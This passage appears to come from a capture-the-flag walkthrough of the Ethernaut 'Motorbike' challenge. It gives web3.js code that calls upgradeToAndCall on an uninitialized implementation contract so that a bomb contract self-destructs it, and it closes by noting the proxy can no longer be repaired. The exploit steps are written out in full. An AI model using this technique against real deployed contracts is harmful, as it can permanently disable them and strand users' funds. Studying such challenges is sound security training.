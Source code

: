 ```
bombAddr = '<BombEngine-instance-address>'
explodeData = web3.eth.abi.encodeFunctionSignature("explode()")

upgradeSignature = {
    name: 'upgradeToAndCall',
    type: 'function',
    inputs: [
        {
            type: 'address',
            name: 'newImplementation'
        },
        {
            type: 'bytes',
            name: 'data'
        }
    ]
}

upgradeParams = [bombAddr, explodeData]

upgradeData = web3.eth.abi.encodeFunctionCall(upgradeSignature, upgradeParams)
```
6. Now call upgradeToAndCall at implAddr:
```
await web3.eth.sendTransaction({from: player, to: implAddr, data: upgradeData})
```
Boom! The Engine is destroyed! The Motorbike is now useless. Motorbike cannot even be repaired now because all the upgrade logic was in the logic contract which is now destroyed.

